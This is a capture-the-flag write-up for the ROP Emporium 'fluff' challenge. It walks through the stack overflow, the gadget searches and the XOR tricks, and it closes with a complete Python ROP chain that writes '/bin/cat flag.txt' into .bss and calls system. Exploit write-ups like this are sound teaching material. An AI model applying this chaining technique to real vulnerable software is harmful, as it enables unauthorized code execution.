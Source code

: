 ```yaml
---
title: 06_fluff
categories: [series, rop_emporium]
---
```


# ROP Emporium fluff

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done."

This one has funky `xor` gadgets, but it's still possible to write where we want.

## #Fails
Dear diary,
today I had a lot of fun but also experimented some frustration. I tried several things that didn' work, but in the end I got the flag. It stated with an idea like this: 
because `_fgets()` returns a pointer to the input buffer, I tried to write `/bin/sh` on the stack and then to overwrite the `.got.plt` entry of `_memset()` with the address of `_system()`, and finally to return to `mov rdi, rax; call _memset()`. I seemed to work (at least according to **ps**, and **gdb** indicated the creation of a child process), but I was unable to use this new shell. I tried a second time, replacing `"/bin/sh"` by `"/bin/cat flag.txt"`, but was unable to get the output. In addition, overwritting the `.got.plt` entry of `_memset()` with the one of `_system()` generated a Bus error. I still have to figure out why things went this way, but in the end I opted for an easier solution which is basically the [write4](/series/rop_emporium/ropemporium-write4) challenge with `xor`.
Also, this is the first challenge for which returning to instruction `call system` majestically failed to execute the commandline pointed by `edi`; the fix was to return to `plt.system`.

## Function pwnme()

The function `pwnme()` calls `_fgets()`, and `_fgets()` accepts up to 0x220 input bytes:
```
0x00000000004007EC    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x00000000004007F3    lea     rax, [rbp+s]
0x00000000004007F7    mov     esi, 200h       ; n
0x00000000004007FC    mov     rdi, rax        ; s
0x00000000004007FF    call    _fgets
```

## Function usefulFunction():

This function calls `_system()` with `edi` pointing to the string `"/bin/ls"`:
```
0x000000000040080B    mov     edi, offset command ; "/bin/ls"
0x0000000000400810    call    _system
```

## Writeable area

Let's stick with the `.bss` section, 0x30 bytes is large enough to contains the string `"/bin/cat flag.txt_"`:

```bash
readelf --sections fluff
There are 31 section headers, starting at offset 0x1bf8:

Section Headers:
[Nr] Name              Type             Address           Offset
     Size              EntSize          Flags  Link  Info  Align
[...]
[26] .bss              NOBITS           0000000000601060  00001060
     0000000000000030  0000000000000000  WA       0     0     32
[...]
```

## Searching gadgets

We find a memory write gadget:
```bash
ropper --search "mov [%]" -f ../challs/fluff

0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
```
Okay, `mov qword ptr [r10], r11` is cool if: 
1. We can control `r10`;
2. we can control `r11`. 

But before that, note the `xor [r10], r12b`: it writes to memory, but if we set `r12b` to 0 (thanks to the `pop r12`), the data at `[r10]` won't change. This also means we could chain the `pop/xor/ret` to decode or restore altered data, similarly to the [badchars](/series/rop_emporium/ropemporium-badchars) challenge.  
Now, let's look for `r10`:
```bash
ropper --search "% r10" -f ../challs/fluff
[...]
0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret; 
``` 
A nice `xchg r11, r10`. In addition, we note that using this gadget will also execute the instruction `mov r11d, 0x602050`. So, at this point we can control `r10` through `r11`, but we don't fully control `r11`. Can we have a better control on it? Let's check: 
```bash
ropper --search "% r11" -f ../challs/fluff
[...]
0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret; 
0x000000000040082f: xor r11, r12; pop r12; mov r13d, 0x604060; ret; 
```
Hm. The `xor r11, r12` adds another level of dependency, but the `pop r12` allows to control the full chain.  
In a nushell:
```
; set r10 = pointer
mov r11d, 0x602050  ; hardcoded constraint
pop r12             ; anything we want
xor r11, r12        ; full control on r11
xchg r11, r10       ; full control on r10
; write to [r10]
mov r11d, 0x602050  ; hardcoded constrain
pop r12             ; anything we want
xor r11, r12        ; thus, also anything we want
mov qword ptr [r10], r11 ; full control on [r10]
```
Finally, we need a gadget to set `edi` to points to the commandline to execute:
```bash
ropper --search "pop ?di" -f fluff
[...]
0x00000000004008c3: pop rdi; ret; 
```

## ROP the things

```python
# Fill buffer
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'

# Round 1
# set r10 = 0x00601060 (.bss)
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x30\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk;ret
payload += b'\x7f\x42\x09\x6e\x2f\x63\x61\x74'  # xorkey 2 (tac/nib/ ^ 602050)
#payload += b'\x7f\x42\x09\x6e\x2f\x73\x68\x00'  # xorkey 2 (\x00hs/nib/ ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11="/bin/cat"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b; ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# Round 2
# set r10 = .bss+8
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x38\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'\x70\x46\x0c\x61\x67\x2e\x74\x78'  # xorkey 2 ("xt.galf " ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11=" flag.tx"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b; ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# Round 3
# set r10 = .bss+0x10
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x20\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'\x24\x20\x60\x00\x00\x00\x00\x00'  # xorkey 2 (t ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11="t\x00"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13, junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b, ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# call system
payload += b'\xc3\x08\x40\x00\x00\x00\x00\x00'  # pop edi; ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00'  # ->"/bin/cat flag.txt"
#payload += b'\x10\x08\x40\x00\x00\x00\x00\x00'  # call _system(): fails but dunno why
payload += b'\xe0\x05\x40\x00\x00\x00\x00\x00'  # plt.system
```
---
EOF
